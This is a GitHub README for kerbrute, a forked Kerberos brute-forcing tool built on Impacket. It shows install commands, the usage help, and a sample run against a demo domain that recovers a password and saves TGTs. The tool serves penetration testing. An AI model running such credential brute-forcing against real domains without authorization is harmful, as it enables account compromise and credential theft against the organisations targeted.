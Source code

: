 # Credit
This version of kerbrute was originally created by [TarlogicSecurity](https://github.com/TarlogicSecurity), but since that repo has not been updated in the last few years despite standing pull requests, I am forking the repo to keep it alive.

# kerbrute
An script to perform kerberos bruteforcing by using the Impacket library.

When is executed, as input it receives a user or list of users and a password or list of password. Then is performs a brute-force attack to enumerate:
* Valid username/passwords pairs
* Valid usernames
* Usernames without pre-authentication required

As a result, the script generates a list of valid credentials discovered, and the TGT's generated due those valid credentials.

## Installation

From pypi:
```
pip3 install kerbrute
```

From repo:
```
git clone https://github.com/TarlogicSecurity/kerbrute
cd kerbrute
pip install -r requirements.txt
```

## Use

Help without arguments:
```shell
root@kali:~# kerbrute
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

usage: kerbrute.py [-h] [-debug] (-user USER | -users USERS)
                   [-password PASSWORD | -passwords PASSWORDS] -domain DOMAIN
                   [-dc-ip <ip_address>] [-threads THREADS]
                   [-outputfile OUTPUTFILE] [-no-save-ticket]

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -user USER            User to perform bruteforcing
  -users USERS          File with user per line
  -password PASSWORD    Password to perform bruteforcing
  -passwords PASSWORDS  File with password per line
  -domain DOMAIN        Domain to perform bruteforcing
  -dc-ip <ip_address>   IP Address of the domain controller
  -threads THREADS      Number of threads to perform bruteforcing. Default = 1
  -outputfile OUTPUTFILE
                        File to save discovered user:password
  -no-save-ticket       Do not save retrieved TGTs with correct credentials

Examples: 
	./kerbrute.py -users users_file.txt -passwords passwords_file.txt -domain contoso.com
```

Example of execution:
```shell
root@kali:~# kerbrute -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

[*] Stupendous => triceratops:Sh4rpH0rns
[*] Saved TGT in triceratops.ccache
[*] Valid user => velociraptor [NOT PREAUTH]
[*] Valid user => trex
[*] Saved discovered passwords in jurassic_passwords.txt
```
